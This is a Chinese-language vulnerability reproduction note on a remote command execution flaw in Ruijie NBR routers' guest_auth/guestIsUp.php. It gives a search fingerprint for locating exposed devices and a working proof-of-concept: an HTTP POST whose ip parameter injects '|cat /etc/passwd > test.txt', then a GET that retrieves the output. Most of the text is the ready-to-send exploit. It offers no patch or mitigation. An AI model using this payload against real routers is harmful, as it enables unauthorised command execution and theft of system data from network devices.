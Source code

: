 # 锐捷NBR路由器guestIsUp.php远程命令执行漏洞

**一、漏洞简介**  
<font style="color:rgb(34, 34, 34);">锐捷网络是一家拥有包括交换机、路由器、软件、安全防火墙、无线产品、存储等全系列的网络设备产品线及解决方案的专业化网络厂商。锐捷NBR 路由器系统存在</font><font style="color:rgb(255, 0, 0);">远程命令执行</font><font style="color:rgb(34, 34, 34);">漏洞，攻击者通过漏洞可以获取服务器权限，导致服务器失陷。</font>  
**二、影响版本**

Ruijie-NBR路由器

**三、资产测绘**

```plain
app="Ruijie-NBR路由器"
```

●登录页面![1711871186381-4330c91f-724e-44b0-9221-324f4adec915.png](./img/Ug2v7cQOIB8QjHRA/1711871186381-4330c91f-724e-44b0-9221-324f4adec915-992891.png)

  
**四、漏洞复现**

<font style="color:rgb(34, 34, 34);">1.执行查看用户并写入当前目录test.txt的poc</font>

```plain
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Connection: close
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

![1711872621387-84b10c76-c77a-483d-806e-a321c3858a5b.png](./img/Ug2v7cQOIB8QjHRA/1711872621387-84b10c76-c77a-483d-806e-a321c3858a5b-868464.png)

<font style="color:rgb(34, 34, 34);">2.访问该文件，得到回显</font>

```plain
GET /guest_auth/test.txt HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![1711872633663-ac208ec4-6962-4bf6-bb9b-75b75790275c.png](./img/Ug2v7cQOIB8QjHRA/1711872633663-ac208ec4-6962-4bf6-bb9b-75b75790275c-292423.png)

  


若有收获，就点个赞吧

  
 



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hon6ugvrmt270v4x>